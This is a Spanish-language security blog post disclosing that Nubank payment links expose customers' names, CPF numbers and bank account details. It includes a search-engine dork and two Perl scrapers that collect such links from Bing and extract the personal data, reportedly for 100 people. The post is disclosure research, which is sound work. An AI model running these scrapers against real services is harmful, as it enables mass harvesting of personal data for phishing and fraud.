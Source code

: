 ```yaml
---
layout: content
title: 'Un pequeño caso de scraping de datos personales expuestos en la web'
description: 'Durante la realización de una investigación de seguridad en aplicaciones móviles, se identificó una funcionalidad en la aplicación de Nubank que permite la creación y el envío de "links de cobro" a múltiples destinatarios. Se descubrió una vulnerabilidad en esta funcionalidad que permitió mapear datos personales, como CPF, nombre completo, número y agencia de la cuenta de varios clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabla de contenido:
- [Resumen](#resumen)
- [Descripción](#descricion)
- [Prueba de concepto](#prueba-de-concepto)
- [Impacto](#impacto)
- [Conclusión](#conclusión)
- [Referencias](#referencias)

### Resumen

Durante la realización de una investigación de seguridad en aplicaciones móviles, se identificó una funcionalidad en la aplicación de Nubank que permite la creación y el envío de "links de cobro" a múltiples destinatarios. Se descubrió una vulnerabilidad en esta funcionalidad que permitió mapear datos personales como CPF, nombre completo, número y agencia de la cuenta bancaria de varios clientes.

DISCLAIMER: La empresa responsable fue notificada de todos los detalles de esta investigación en el menor tiempo posible y respondió de manera ética y transparente, demostrando atención y compromiso con la seguridad de la funcionalidad. Durante las pruebas realizadas, no hubo invasión ni violación de sistemas. Además, la empresa implementó algunas medidas correctivas para reducir los riesgos potenciales asociados al problema reportado. Se proporcionaron recomendaciones adicionales para mitigar la vulnerabilidad, pero la empresa optó por no implementarlas en su totalidad.

Esta publicación también está disponible en: [Portugués](/2020/06/23/Scraping-dados-pessoais-na-web) e [Inglés](/2020/06/23/Scraping-personal-data-exposure-in-the-web);

---

### Descripción

Dentro de la aplicación de Nubank, existe una funcionalidad llamada "Cobrar". Su funcionamiento consiste en: 1) ingresar un valor si se desea, 2) hacer clic en confirmar y 3) se genera un código QR, con la opción de compartirlo o enviarlo a través de otra aplicación, como WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

El contenido del código QR es el mismo enlace que puede compartirse a través de aplicaciones de mensajería. Cuando el enlace se abre en el navegador, se obtiene el siguiente resultado:

![](/images/publications/nubank-scraping/personal-infos.png)

Se exponen, sin ningún tipo de control, algunos datos del usuario que generó el enlace, como: nombre completo, CPF, número de cuenta bancaria y agencia. El único requisito para obtener esta información sensible[1] es poseer dicha URL.

La URL en cuestión es generada exclusivamente por el cliente en su aplicación, y también es responsabilidad del cliente decidir cómo y con quién compartir cada URL generada.

Sin embargo, estas URLs son indexadas por motores de búsqueda, lo que permite el uso de dorks[2] para identificar más URLs relacionadas a este servicio.

Dork para restringir la búsqueda al sitio principal de Nubank, donde las URLs contengan el patrón "/pagar/" y se excluyan los resultados del blog:

```text
site:nubank.com.br inurl:/pagar/ -blog
```

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Además, es posible observar que algunos usuarios publicaban estas URLs en otros canales, como Twitter. Un uso común de la funcionalidad sería para recibir donaciones.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prueba de concepto

Para demostrar el impacto del abuso de esta funcionalidad, se creó una prueba de concepto. La primera parte de esta PoC consiste en la construcción de un código capaz de utilizar un motor de búsqueda para colectar la mayor cantidad posible de URLs. Se desarrolló un scraper[3] utilizando Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Con este código, fue colectado 100 URLs válidas — este valor fue limitado a 100 con fines demostrativos, pero podría haber sido mayor:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Después de colectar las URLs en un archivo .txt, se desarrolló otro scraper para extraer los datos desde la página de Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

Y el resultado obtenido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nombre completo, número de cuenta y agencia de 100 personas, en tan solo unos minutos y con pocas líneas de código.

### Impacto

La posibilidad de que un atacante abuse de esta funcionalidad disponible en los sistemas de Nubank es alta debido a la facilidad de explotación. Esto puede exponer a varios usuarios, filtrando información sensible como se ilustró anteriormente. Además, un atacante con estos datos en mano podría utilizarlos para desarrollar una estrategia de ingeniería social muy bien dirigida.

### Conclusión

A través de este análisis, es posible afirmar que un agente malicioso podría implementar scrapers para mapear las URLs de cobro de Nubank y, posteriormente, colectar la información personal presente en ellas. Este artículo presentó una PoC como una de esas implementaciones, utilizando un motor de búsqueda, pero aún existe espacio para otros canales como redes sociales (Twitter, Facebook y otras). Este escenario podría utilizarse para convertir a los clientes de Nubank en víctimas de ataques de spear phishing o ingeniería social.

---

### Referencias

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)